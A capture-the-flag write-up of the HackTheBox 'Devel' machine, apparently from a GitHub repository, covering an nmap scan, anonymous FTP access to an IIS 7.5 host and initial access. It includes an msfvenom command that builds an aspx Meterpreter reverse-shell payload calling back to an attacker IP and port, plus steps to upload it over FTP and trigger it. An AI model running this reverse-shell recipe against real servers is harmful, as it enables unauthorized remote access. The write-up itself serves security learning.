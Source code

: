 # Devel
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/08fa0240-d04c-403e-8edd-e524f901862f)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.5 --min-rate 1000  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-08 07:35 PDT
Nmap scan report for 10.10.10.5
Host is up (0.026s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.08 seconds
```

1. Based from the nmap results, the machine runs a web application and opens a anonymous ftp login.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/56e020b6-16b2-4033-9849-e486a2b6f17f)


2. Did a small research about the service version for http, found a CVE that could be our interest -> https://www.exploit-db.com/exploits/15803


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e88dcd00-0758-481f-98d1-98661800d40d)


3. Anyway, let's login to ftp first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bd844e68-ee68-4ff0-a8fd-af981fb44c59)


4. Traversing the directory found no files at all.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/90f5c1ab-37e1-4bbe-8e45-be4c8db31907)


5. Thing to note, since we're in a ftp server, we **need to check** if we can upload a file from our local machine to this ftp server.
6. For example let's make our reverse shell payload using **msfvenom**.
7. We want to save the payload in asp or aspx format file. Why?? Because IIS execute that file.

> COMMAND 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.20 lport=1337 -f aspx > reverse_shell.aspx
```

### FLOW

```
1. Create reverse shell payload using msfvenom.
2. Set listener on the specfied port.
3. run put file.aspx on the ftp server (to download the file from our local machine).
4. Then trigger the reverse shell payload by accessing it --> http://ip/file.aspx.
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/715111d5-aa90-4e10-a0b3-f1bb3f093642)


8. It's stuck there, confused why.
9. Succeed got shell after used the msfconsole listener.

